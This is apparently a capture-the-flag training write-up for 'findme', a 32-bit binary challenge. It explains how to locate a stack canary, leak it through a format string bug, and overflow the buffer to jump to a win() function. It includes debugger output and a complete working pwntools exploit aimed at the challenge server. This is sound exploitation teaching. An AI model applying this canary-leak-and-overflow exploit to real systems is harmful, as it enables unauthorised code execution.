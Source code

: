 ```yaml
---
description: A small spin on the canary problem.
---
```


# findme

{% file src="../../.gitbook/assets/findme.zip" %}

This challenge is very similar to the _canary_ challenge so we will skip the parts explaining the underlying theory. The goal of this problem is not only to provide more practice but also to show the speed at which these binaries can be exploited.

If you can go from nothing to an attack vector to an exploit for most problems in no more than 30 minutes, you're on the right track to succeed.

### Static Analysis

If we check the security, we notice that there is clearly a canary present.

```nasm
$ checksec ./findme
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/04-canaries/findme/src/findme'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

We notice that the functions that aren't part of the STL are `main()`, `read_in()`, and `win()`.

* `main()` calls `read_in` and then returns.
* `win()` calls `system()` and then returns.

That leaves `read_in`. We notice the following:

* The canary is stored at `ebp-0xc`.
* There is a format string bug at `read_in+116`.
* We start writing at `ebp-0x48`.

Moving to the `gets` call that supplies the input to the format string vulnerability, we can quickly get the offset to the canary:

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  x/20wx $esp
0xffffd550:	0xffffd560	0x00000014	0x00000000	0x080491d2
0xffffd560:	0x00000000	0x00000000	0x01000000	0x0000000b
0xffffd570:	0xf7fc4540	0x00000000	0xf7c184be	0xf7e2a054
0xffffd580:	0xf7fbe4a0	0xf7fd6f80	0xf7c184be	0xf7fbe4a0
0xffffd590:	0xffffd5d0	0xf7fbe66c	0xf7fbeb20	0xbc53b400
```
{% endtab %}

{% tab title="Radare2" %}
```nasm
[0x08049214]> pxw 80@esp
0xff8479c0  0xff8479d0 0x00000014 0x00000000 0x080491d2  .y..............
0xff8479d0  0x00000000 0x00000000 0x01000000 0x0000000b  ................
0xff8479e0  0xf7f4a540 0x00000000 0xf7c184be 0xf7e2a054  @...........T...
0xff8479f0  0xf7f44680 0xf7f5cf90 0xf7c184be 0xf7f44680  .F...........F..
0xff847a00  0xff847a40 0xf7f4484c 0xf7f44d00 0x6766b600  @z..LH...M....fg
```
{% endtab %}
{% endtabs %}

We see the canary is at the 19th offset on the stack. If we want to do this mathematically, the canary is at `ebp-0xc`, and the stack pointer is at `esp`. We can do this math inside `gdb`:

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  p/x $esp
$3 = 0xffffd550
gef➤  p/x $ebp-0xc
$4 = 0xffffd59c
gef➤  python print((0xffffd59c-0xffffd550)/4)
19.0
```
{% endtab %}

{% tab title="Radare2" %}
```nasm
[0x08049214]> pxw 4 @ esp
0xff8479c0  0xff8479d0                                   .y..
[0x08049214]> pxw 4 @ ebp-0xc
0xff847a0c  0x6766b600                                   ..fg
[0x08049214]> ?vi (0xff847a0c-0xff8479c0)/4
19
```
{% endtab %}
{% endtabs %}

The reason that we divide by four is that each address is four bytes long.

### Crafting the Payload

From here, we know what the payload is going to look like.

1. The first time around: send the format string to leak the canary.
2. The second time around: pad to the canary, write the canary, then pad to the return address, and overwrite the return address.

Let's make this happen.

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

proc = remote('vunrotc.cole-ellis.com', 4300)

# get the line of data
print(proc.recvline())

# payload round 1: leak the canary
proc.sendline(b'%19$p')
print(proc.recvuntil(b', '))
leak = int(proc.recvuntil(b'!')[:-1].decode(), 16)
print(proc.recvuntil(b':'))

print("Canary leaked:", hex(leak))

# payload round 2: buffer overflow
payload = b''
payload += b'A' * 40
payload += p32(leak)
payload += b'B' * 12
payload += p32(0x080492b9)

proc.sendline(payload)
proc.interactive()
```
{% endcode %}

Running the exploit gets us the flag:

```nasm
$ python3 exploit.py
b'Enter your username.\n'
b'Hi, '
b' Enter your password:'
Canary leaked: 0xf604b100
[*] Switching to interactive mode
 flag{combining_techniques_is_essential}
/home/ctf/runner.sh: line 5:    27 Segmentation fault      (core dumped) ./findme
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to vunrotc.cole-ellis.com port 4300
```

